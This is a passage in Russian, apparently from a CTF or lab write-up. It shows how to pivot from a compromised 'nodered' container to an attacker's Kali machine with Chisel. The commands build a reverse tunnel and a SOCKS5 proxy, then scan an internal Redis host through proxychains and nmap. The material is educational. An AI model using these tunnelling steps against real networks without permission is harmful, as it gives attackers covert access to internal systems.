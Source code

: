 ```
root@kali:~/chisel# ./chisel server -v -reverse -p 8000
```

Первым делом, как обычно, запускаем сервер на Kali, который разрешает обратные подключения.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 R:127.0.0.1:8001:127.0.0.1:31337 &
```

Потом делаем обратный проброс с `nodered` (порт `31337`) на Kali (порт `8001`). На данном этапе все, что попадает на Kali через `localhost:8001`, отправляется в `nodered` на `localhost:31337`.

```
root@nodered:/tmp# ./chisel server -v -p 31337 --socks5
```

Следующим шагом запускаем Chisel в режиме SOCKS-сервера на `nodered` слушать порт `31337`.

```
root@kali:~/chisel# ./chisel client 127.0.0.1:8001 1080:socks
```

В завершении активируем дополнительный клиент Chisel на Kali (со значением `socks` в качестве remote), который подключается к локальному порту `8001`. А дальше начинается магия: трафик передается через порт `1080` SOCKS-прокси по обратному туннелю, который обслуживает первый сервер на 8000-м порту, и попадает на интерфейс `127.0.0.1` контейнера `nodered` в порт `31337`, где уже развернут SOCKS-сервер. Фух.

С этого момента мы можем обращаться к любому хосту по любому порту, до которых может дотянутся `nodered`, а SOCKS-прокси выполнит всю маршрутизацию за нас.

```
root@kali:~# proxychains4 nmap -n -Pn -sT -sV -sC 172.19.0.3 -p6379
...
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.9
...
```
